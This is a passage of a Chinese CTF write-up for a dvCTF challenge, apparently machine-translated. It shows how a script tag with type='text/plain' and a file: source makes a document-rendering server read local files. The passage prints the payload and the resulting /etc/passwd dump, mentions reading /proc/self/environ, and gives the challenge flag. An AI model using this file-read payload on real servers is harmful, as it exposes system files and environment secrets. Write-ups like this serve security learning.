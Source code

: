 我们可以在服务器的响应中看到我们 URL 的 Hello Wolrd 内容

了解了这一点，我们尝试用 file:// scheme 加载本地文件。但是，服务器总是会响应一个错误。

直到一个同事尝试添加类型属性`type="text/plain"`并得到一个结果。有了这个属性和正确的来源，我们就能够排除 */etc/passwd* 。

`<script type="text/plain" src="file:/etc/passwd"></script>`

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
docker:x:1000:1000::/home/docker:/bin/sh
homework:x:1001:1001:,,,:/home/homework:/bin/bash
```

从这里，我们看着`/proc/self/environ`来列出环境变量。

从环境变量中，我们可以看到一些有趣的目录来搜索标志。最后，标志在`/app/flag`:**dvCTF { r _ markd 0wn _ 1s _ c00l }**

![](img/6d3fd6fade1c41046362c1dd14395034.png)

我们收到旗帜的最后一个请求

